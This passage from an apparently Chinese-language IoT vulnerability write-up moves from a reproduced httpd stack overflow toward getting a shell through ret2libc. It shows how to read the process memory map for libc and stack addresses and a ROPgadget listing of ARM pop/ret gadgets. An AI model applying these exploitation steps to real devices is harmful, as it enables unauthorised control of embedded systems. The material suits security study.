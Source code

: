 可以发现系统停止了运行并在监听端出现报错

到这里复现就成功了

## 更进一步

既然栈溢出能成功，那么我们是否可以更进一步拿到 shell？

答案自然是可以的，程序只开启了 nx，无法直接写 shellcode，而程序中的后门函数不大好利用，并且考虑到 IoT 设备为效率考虑一般是不会开 aslr 的，所以我们可以直接通过 ret2libc 来进行利用

首先找到该进程加载的 libc 基地址和栈地址

```plain
cat /proc/'pid号'/maps
```

[![](assets/1706959011-6acca2952a6a679b78363cc7f96562a2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126170550-19f906ec-bc2a-1.png)

用 ROPgadget 看看有那些可以利用的 gadget

```plain
root@rbcpwn-virtual-machine:~/Desktop# ROPgadget --binary httpd --only 'pop|ret'
Gadgets information
============================================================
0x00024364 : pop {r1, pc}
0x00015c3c : pop {r3, pc}
0x0000d9f0 : pop {r3, r4, r5, pc}
0x0000aa94 : pop {r3, r4, r5, r6, r7, pc}
0x00011a58 : pop {r3, r4, r5, r6, r7, r8, sb, pc}
0x00011c54 : pop {r3, r4, r5, r6, r7, r8, sb, pc} ; pop {r3, r4, r5, r6, r7, r8, sb, pc}
0x0000e4d8 : pop {r3, r4, r5, r6, r7, r8, sb, sl, fp, pc}
0x0000a884 : pop {r4, pc}
0x0000d6cc : pop {r4, r5, pc}
0x0000a91c : pop {r4, r5, r6, pc}
0x0001757c : pop {r4, r5, r6, pc} ; pop {r4, r5, r6, pc}
0x0001412c : pop {r4, r5, r6, r7, pc}
0x0001bdb4 : pop {r4, r5, r6, r7, r8, fp, pc}
0x0000a9e0 : pop {r4, r5, r6, r7, r8, pc}
0x0000f2a4 : pop {r4, r5, r6, r7, r8, sb, pc}
0x0000a504 : pop {r4, r5, r6, r7, r8, sb, sl, fp, pc}
0x0000c708 : pop {r4, r5, r6, r7, r8, sb, sl, pc}
```
